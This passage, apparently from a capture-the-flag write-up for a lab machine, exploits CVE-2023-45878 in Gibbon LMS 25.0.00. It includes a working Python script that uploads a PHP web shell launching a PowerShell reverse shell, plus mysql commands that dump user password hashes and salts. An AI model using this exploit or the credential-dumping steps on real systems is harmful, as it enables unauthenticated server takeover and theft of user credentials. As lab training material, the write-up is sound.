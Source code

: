 You will see an announcement below the welcome word that tells you the authentication mechanism uses kerberos. You can also see the version of the application that is `25.0.00`, which has many CVEs but the most critical one is [CVE-2023-45878](https://nvd.nist.gov/vuln/detail/CVE-2023-45878). It's an unauthenticated RCE vulnerability and has a [public PoC](https://herolab.usd.de/security-advisories/usd-2023-0025/).

I wrote a script to automate the process :
`gibbon_unauthenticated_rce.py`

```python
import requests
from base64 import b64encode

url = "http://frizzdc.frizz.htb/Gibbon-LMS"
filename = "bruh.php"

payload = b64encode(
    "<?php system('powershell -e <B64_revshell>'); ?>".encode()
).decode()


data = {
    "img": f"image/png;bruh,{payload}",
    "path": filename,
    "gibbonPersonID": "0000000001",
}

r = requests.post(
    url + "/modules/Rubrics/rubrics_visualise_saveAjax.php",
    data=data,
)

assert r.text == filename, print("Failed to upload file")

r = requests.get(url + f"/{filename}")
```

# Shell as w.webservice

## Enumeration

The current user doesn't have excessive privileges, so let's just dump the users from Gibbon LMS database. The database credential can be found at `C:\xampp\htdocs\Gibbon-LMS\config.php`. You can use mysql binary from xampp at `C:\xampp\mysql\bin\mysql.exe` to interact with the MySQL service.

## MySQL

```powershell
# Get tables
PS C:\xampp\mysql\bin> ./mysql.exe -u <USER> -p<PASS> -e "use gibbon;show tables"

# Get password hash and salt
PS C:\xampp\mysql\bin> ./mysql.exe -u <USER> -p<PASS> -e "use gibbon;select username,passwordStrong,passwordStrongSalt from gibbonperson;"
```
